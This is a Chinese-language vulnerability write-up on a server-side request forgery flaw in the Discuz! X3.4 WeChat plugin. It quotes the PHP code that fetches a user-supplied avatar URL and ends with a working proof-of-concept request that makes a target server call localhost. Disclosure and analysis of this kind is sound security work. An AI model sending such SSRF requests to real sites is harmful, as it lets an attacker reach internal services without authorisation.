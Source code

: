 Discuz! X3.4 Weixin Plugin ssrf
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X3.4

三、复现过程
------------

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

        static public function syncAvatar($uid, $avatar) {

            if(!$uid || !$avatar) {
                return false;
            }

            if(!$content = dfsockopen($avatar)) {
                return false;
            }

            $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
            file_put_contents($tmpFile, $content);

            if(!is_file($tmpFile)) {
                return false;
            }

            $result = uploadUcAvatar::upload($uid, $tmpFile);
            unlink($tmpFile);

            C::t('common_member')->update($uid, array('avatarstatus'=>'1'));

            return $result;
        }

`source/plugin/wechat/wechat.inc.php`
中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

    ......

    elseif(($ac == 'register' && submitcheck('submit') || $ac == 'wxregister') && $_G['wechat']['setting']['wechat_allowregister']) {

            ......

            $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

            if($uid && $_GET['avatar']) {
                WeChat::syncAvatar($uid, $_GET['avatar']);
            }

    }

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![](./resource/Discuz!X3.4WeixinPluginssrf/media/rId24.png)

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url
即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil

![](./resource/Discuz!X3.4WeixinPluginssrf/media/rId26.png)
